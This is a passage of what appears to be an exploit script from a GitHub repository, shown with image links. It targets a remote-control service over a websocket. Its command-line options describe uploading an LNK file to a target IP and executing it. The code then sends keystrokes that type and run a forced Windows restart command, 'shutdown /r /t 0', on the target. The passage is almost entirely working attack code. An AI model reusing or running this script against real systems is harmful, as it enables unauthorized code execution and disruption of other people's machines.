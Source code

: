 ```

        restart_cmd = 'shutdown /r /t 0'
        for char in restart_cmd:
            await ws.send('42' + json.dumps(["key", char]))
            await asyncio.sleep(0.1)
        

        await ws.send('42["key","enter"]')
        print("[*] Files executed and restart command sent!")
        

        await asyncio.sleep(5)
        

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Upload and execute LNK file then restart target')
    parser.add_argument('target', help='Target IP address')
    parser.add_argument('file', help='Path to the LNK file to upload')
    args = parser.parse_args()
    

    if not upload_file(args.target, args.file):
        print("File upload failed. Exiting.")
        exit(1)
    
    print("File uploaded successfully. Starting exploit...")
    

    asyncio.get_event_loop().run_until_complete(execute_exploit(args.target))
```

 <img src="https://raw.githubusercontent.com/capture0x/Peyara/refs/heads/main/peyara1.png" width="100%"></img>


